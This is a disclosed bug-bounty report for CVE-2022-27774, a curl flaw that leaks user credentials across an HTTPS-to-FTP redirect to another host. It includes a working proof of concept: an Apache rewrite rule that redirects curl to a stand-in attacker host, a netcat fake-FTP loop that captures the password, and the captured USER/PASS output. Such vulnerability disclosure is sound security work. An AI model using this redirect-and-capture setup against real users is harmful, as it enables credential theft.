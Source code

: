 # CVE-2022-27774: Credential leak on redirect

## Report Details
- **Report ID**: 1551586
- **URL**: https://hackerone.com/reports/1551586
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-27T07:04:13.215Z
- **Disclosed**: 2022-04-29T06:32:17.627Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary:
curl/libcurl can be coaxed to leak user credentials to third-party host by issuing HTTP redirect to ftp:// URL.

## Steps To Reproduce:

  1. Configure for example Apache2 on `firstsite.tld` to perform redirect with mod_rewrite:
     ```
    RewriteCond %{HTTP_USER_AGENT} "^curl/"
    RewriteRule ^/redirectpoc ftp://secondsite.tld:9999 [R=301,L]
     ```
  2. Capture credentials at `secondsite.tld` for example with:
     ```
     while true; do echo -e "220 pocftp\n331 plz\n530 bye" | nc -v -l -p 9999; done
     ```
  3. `curl -L --user foo  https://firstsite.tld/redirectpoc`
  4. The entered password is visible in the fake FTP server:
```
Listening on 0.0.0.0 9999
Connection received on somehost someport
USER foo
PASS secretpassword
```

There are several issues here:
1. The credentials are sent to a completely different host than the original host (`firstsite.tld` vs `secondsite.tld`). This is definitely not what the user could expect, considering the documentation says:
> When authentication is used, curl only sends its credentials to the initial host. If a redirect takes curl to a different host, it will not be able to intercept the user+password. See also --location-trusted on how to change this.
2. The redirect crosses from secure context (HTTPS) to insecure one (FTP). That is the credentials are unexpectedly sent over insecure channels even when the URL specified is using HTTPS.

In addition, TLS SRP user credentials (`CURLOPT_TLSAUTH_USERNAME` and `CURLOPT_TLSAUTH_PASSWORD`) are also leaked on redirects.

## Impact

Leak of confidential information (user credentials).

## Attachments
No attachments

